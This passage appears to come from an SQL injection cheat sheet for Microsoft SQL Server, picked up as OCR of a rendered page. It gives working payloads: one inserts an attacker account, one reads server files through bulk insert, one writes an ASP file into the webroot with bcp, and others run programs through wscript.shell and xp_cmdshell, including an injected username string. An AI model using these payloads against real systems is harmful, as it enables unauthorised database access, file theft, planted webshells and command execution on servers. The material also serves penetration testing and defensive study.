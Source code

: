       
    `Microsoft OLE DB Provider for SQL Server error '80040e07'   
    Explicit conversion from data type **int** to image is not allowed.`

**You'll get convert() errors before union target errors !** So start with convert() then union

### Simple Insert (MSO+)

`'; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*`

### Useful Function / Information Gathering / Stored Procedures / Bulk SQL Injection Notes

**@@version** (MS)   
Version of database and more details for SQL Server. It's a constant. You can just select it like any other column, you don't need to supply table name. Also, you can use insert, update statements or in functions.

`INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)`

#### Bulk Insert (S)

Insert a file content to a table. If you don't know internal path of web application you can **read IIS (**_IIS 6 only_**) metabase file**(_%systemroot%\\system32\\inetsrv\\MetaBase.xml_) and then search in it to identify application path.

1.  Create table foo( line varchar(8000) )
2.  bulk insert foo from 'c:\\inetpub\\wwwroot\\login.asp'
3.  _Drop temp table, and repeat for another file._

#### BCP (S)

Write text file. Login Credentials are required to use this function.   
`bcp "SELECT * FROM test..foo" queryout c:\inetpub\wwwroot\runcommand.asp -c -Slocalhost -Usa -Pfoobar`

#### VBS, WSH in SQL Server (S)

You can use VBS, WSH scripting in SQL Server because of ActiveX support.

`declare @o int   
exec sp_oacreate 'wscript.shell', @o out   
exec sp_oamethod @o, 'run', NULL, 'notepad.exe'` `_Username:_ '; declare @o int exec sp_oacreate 'wscript.shell', @o out exec sp_oamethod @o, 'run', NULL, 'notepad.exe' --` 

#### Executing system commands, xp\_cmdshell (S)

Well known trick, By default it's disabled in _SQL Server 2005._ You need to have admin access.

`EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'`

Simple ping check (_configure your firewall or sniffer to identify request before launch it_),

`EXEC master.dbo.xp_cmdshell 'ping '`

You can not read results directly from error or union or something else.

#### Some Special Tables in SQL Server (S)
